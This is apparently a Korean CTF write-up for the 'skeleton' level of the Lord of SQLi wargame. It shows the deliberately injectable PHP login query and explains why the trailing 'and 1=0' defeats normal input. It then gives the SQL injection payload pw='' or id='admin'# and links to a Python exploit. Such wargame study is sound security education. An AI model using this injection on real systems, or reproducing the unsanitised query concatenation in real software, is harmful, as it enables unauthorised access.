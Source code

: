 ```yaml
---
layout: post
title: "LoS skeleton"
author: "isanghyeon"
tags: LordofSQLi
---
```


|문제 명|풀이 여부|URL|
|:------:|:---:|:-----:|
| **skeleton** | <span style="color:red">O</span> | https://los.rubiya.kr/chall/vampire_e3f1ef853da067db37f342f3a1881156.php |

<hr/><br>

### Challenge Source Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

<br>

### Analysis Source Code
- #### preg_match function for $_GET[pw]
> ```php 
> preg_match('/prob|_|\.|\(\)/i', $_GET[pw])
> ```
- #### Solve Conditions
> ```php
> if($result['id'] == 'admin') solve("skeleton"); 
> ```

|query|parms1|parms1|
|:--:|:--:|:--:|
|select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0|id='guest'|pw='{$_GET[pw]}'|

특정 query가 삽입되었을 때 반환 array 의 'id' 인덱스의 값이 'admin'일 경우 solve 된다.  
또한, ``` and 1=0 ``` 의 구문으로 어떤 query가 삽입되어도 거짓이 되기 때문에 주석처리로 해당 구문을 삭제한다.  
문제 풀이에 사용된 예시 query는 다음과 같다.  
```sql
sselect id from prob_skeleton where id='guest' and pw='' or id='admin'#' and 1=0
```
<hr/>
<br>

### Exploit Source Code
|작성 언어|Exploit Link|How to Exploit|
|:------:|:---:|:--:|
| **Python3.8** | https://github.com/isanghyeon/LordofSQLi-Solved-Exploit/tree/master/skeleton |  |